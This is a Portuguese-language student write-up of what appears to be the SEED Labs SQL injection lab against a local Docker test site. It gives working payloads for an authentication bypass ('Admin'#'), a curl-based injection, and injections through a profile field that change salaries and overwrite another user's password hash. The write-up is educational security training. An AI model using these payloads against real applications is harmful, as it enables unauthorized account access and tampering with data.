









# SQL Injection
## Setup
Para começar, utilizamos o seguinte comando para editarmos o ficheiro de forma a colocar uma nova entrada nos hosts conhecidos pela máquina virtual: <br>
```
sudo nano/etc/hosts
10.9.0.5 www.seed-server.com %nova entrada
```

Posto isso, passamos à pasta LabSetup e corremos os containers escritos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios. <br>
```
dcbuild #docker-compose build
dcup #docker-compose up

dockps
docksh 2c #Para abrirmos uma shel do MySQL container para interagirmos diretamente 
```

>

E ficamos assim com o Setup feito e podemos passar às tasks. 


## Tasks

### Task 1: 
Colocamos o comando: <br>
```
 mysql -u root -p 
 ``` 
e colocamos a palavra-passe depois para executarmos o MySQL em modo root. <br>
Posto isto, para escolhermos o schema fizemos: <br>
```
use sqllab_users;
```
e como o objetivo da tarefa é selecionar os dados do utilizador cujo o name é "Alice" usamos o comando: <br>
```
SELECT * FROM credential WHERE Name = "Alice";
```
Finalizamos assim a task 1. 

>

 ### Task 2:
Para a task 2 abrimos o site www.seed-server.com e analisamos o código fornecido em unsafe home.php, que demonstra não ser eficaz no que toca a segurança pois a query utilizada: <br>

```php
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’
```
utiliza diretamente as variáveis $input_uname e $hashed_pwd sem que estas sejam sanitizadas, ou seja, que sejam revistas com um processo de limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>
Devido a essa fragilidade iremos usar isto para conseguir cumprir a tarefa. 

#### Task 2.1:
Para a Task 2.1 temos o objetivo de entrar enquanto administradores. <br>
Pressupondo que o nome do administrador é "Admin" e que não sabemos a senha, podemos colocar como nome de utilizador "Admin'#" para garantir que o comentamos toda a verificação da palavra passe e dessa forma esta ser ignorada no login.<br>
```php
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’Admin'#’ and Password=’$hashed_pwd’
```
Assim ao colocarmos "Admin'#" o que está a acontecer é que o " ' " vai fechar com o anterior e o " # " vai comentar tudo o que vem à frente. <br>
E então conseguimos cumprir a tarefa de fazer login na conta do administrador e desta forma obter dados que pertencem ao resto dos utilizadores da aplicação. <br>

>

#### Task 2.2:

Nesta tarefa temos o objetivo de repetir a tarefa 2.1 mas agora através da linha de comandos. Para isso vamos utilizar o comando 'curl' para fazer um pedido GET. <br>
Foi nos dado este exemplo: <br>
```  
$ curl ’www.seed-server.com/unsafe_home.php?username=alice&Password=11’  
``` 
e ainda nos foi avisado que devemos tratar dos caracteres especiais de forma diferente. Podemos adaptar isso e criar outro comando malicioso. Começamos por cifrar os caracteres especiais, usamos o %27 que representa ' e o %23 que representa #: <br>
```
$ curl "www.seed-server.com/unsafe_home.php?username=Admin%27%3&Password=" 
```

>

Cumprimos então a tarefa obtendo o código html de toda a página que contém todos os dados que pertencem ao resto dos utilizadores da aplicação.

#### Task 2.3:

Nesta tarefa vamos aproveitar a vulnerabilidade para criar mais uma instrução SQL em vez de simplesmente comentarmos o que vem para a frente. <br>
Para isso, vamos usar ';' para colocar novos comandos de forma a atualizar a tabela. <br>
```sql
admin'; UPDATE credential SET Salary = 90000 WHERE ID = 1 AND Name = 'Alice'; # 
```
Contudo, embora o comando estivesse bem, a operação não foi concluída devido a um erro na base de dados. <br>

>

Como mencionado no guião, existe uma contramedida que impede de executarmos duas instruções SQL neste ataque. Isso deve-se a uma extensão de MySQL utilizada pelo PHP do servidor que tem uma proteção que impede a execução de múltiplas queries. Fonte: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php <br>

### Task 3:

Nesta tarefa vamos aproveitar que ao o user atualizar o perfil é usada uma instrução UPDATE.

#### Task 3.1:

Começamos por aproveitar os dados obtidos e as tarefas realizadas até agora e demos login com o username " Alice'# ". Chegamos à pagina para editar os dados pessoais, a que temos o código no ficheiro unsafe_edit_backend.php. Ao analisar o código repara-se também que existe outra query com vulnerabilidade, que tal como nas tarefas anteriores, não faz a limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>

>

Desta forma, já conseguimos alterar o salário que tentamos na tarefa 2.3. <br>
Como o UPDATE vai atualizar vários campos da tabela "credential" e já reparamos que esta tem também o campo do salário, vamos então criar um comando para colocar no campo do Phone Number para que atualize (para além dos que já vai atualizar) ainda mais, o salário. <br>

```sql
911111111', Salary='90000
```
e dessa forma vai então atualizar estes campos: <br>

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111’,Salary='90000' WHERE ID=$id;
```

>

E conseguimos assim concluir a tarefa 3.1, alterando o salário para um valor mais alto. <br>

#### Task 3.2:

Nesta tarefa vamos fazer algo muito parecido com o anterior, porém vamos alterar o valor do salário do chefe "Boby" para 1. <br>
Conseguimos fazer isso de forma rápida se fizermos um novo WHERE e comentarmos o anterior. Algo deste género: <br>

```sql
911111111', Salary='1' WHERE Name = 'Boby';# 
```

e o resultado fica assim:

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Salary='1' WHERE Name = 'Boby';# WHERE ID=$id;
```

Para vermos isto vamos à shell e corremos: <br>

```sql
SELECT Salary FROM credential WHERE Name='Boby';
```

Antes e depois:

>

#### Task 3.3:

Temos como objetivo fazer login através da conta do nosso chefe, e para isso vamos ter de alterar a senha dele. Depois de ter alterado o salário é fácil alterar a senha. <br>
Analisamos o código fornecido em unsafe_edit_backend.php e verificamos que a forma como protegem a palavra passe é com criptografia SHA1. Por isso, para trocarmos a palavra passe para "jafoste" colocamos primeiro em hash "2e2a6402737a5e73c6baad2545f634d6be68d4ba". <br>

```sql
911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';#

```

e o resultado fica assim: <br>

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';# WHERE ID=$id;
```

>

E dessa forma conseguimos então entrar no perfil do Boby com a palavra passe "jafoste".
